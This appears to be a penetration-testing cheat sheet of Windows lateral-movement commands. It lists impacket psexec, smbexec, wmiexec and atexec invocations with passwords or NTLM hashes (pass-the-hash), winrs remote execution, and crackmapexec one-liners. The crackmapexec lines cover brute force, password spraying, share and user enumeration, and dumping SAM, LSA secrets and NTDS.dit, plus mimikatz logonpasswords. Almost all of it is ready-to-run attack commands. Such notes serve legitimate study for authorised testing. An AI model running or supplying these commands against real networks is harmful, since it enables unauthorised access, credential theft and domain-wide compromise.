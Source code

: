 #### psexec - smbexec - wmiexec - atexec

* Here we can pass the credentials or even hash, depending on what we have

```bash
[psexec.py](http://psexec.py) DOMAIN/USERNAME:PASSWORD@TARGET_IP
```

* the user should have write access to Admin share then only we can get session

```bash
[psexec.py](http://psexec.py) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[smbexec.py](http://smbexec.py) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[smbexec.py](http://smbexec.py) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[wmiexec.py](http://wmiexec.py) DOMAIN/USERNAME:PASSWORD@TARGET_IP
[wmiexec.py](http://wmiexec.py) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip>  #we passed full hash here
[atexec.py](http://atexec.py) -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<username>@<target_ip> "command"  #we passed full hash here
```

#### winrs

```bash
winrs -r:TARGET_IP -u:USERNAME -p:PASSWORD "command"
```

* run this and check whether the user has access on the machine, if you have access then you can get shell
* run this on windows session

#### crackmapexec

* If stuck make use of Wiki

```bash
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp}  #supported services

crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success  # Bruteforce
crackmapexec smb SUBNET_OR_IP -u user.txt -p password.txt --continue-on-success | grep '[+]'  # Filter successful logins
crackmapexec smb SUBNET_OR_IP -u user.txt -p 'password' --continue-on-success  #Password spraying
crackmapexec smb TARGET_IP -u 'user' -p 'password' --shares  #lists all shares, provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --disks
crackmapexec smb DC_IP -u 'user' -p 'password' --users  #we need to provide DC ip
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sessions  #active logon sessions
crackmapexec smb DC_IP -u 'user' -p 'password' --pass-pol  #dumps password policy
crackmapexec smb TARGET_IP -u 'user' -p 'password' --sam  #SAM hashes
crackmapexec smb TARGET_IP -u 'user' -p 'password' --lsa  #dumping lsa secrets
crackmapexec smb DC_IP -u 'user' -p 'password' --ntds  #dumps NTDS.dit file
crackmapexec smb DC_IP -u 'user' -p 'password' --groups {groupname}  #we can also provide --group and it lists all groups
crackmapexec smb TARGET_IP -u 'user' -p 'password' -x 'command'  #For executing commands

#crackmapexec modules
crackmapexec smb -L  #listing modules
crackmapexec smb -M mimikatz --options  #shows the required options for the module
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz  #runs default command
crackmapexec smb TARGET_IP -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug sekurlsa::logonpasswords exit'
```
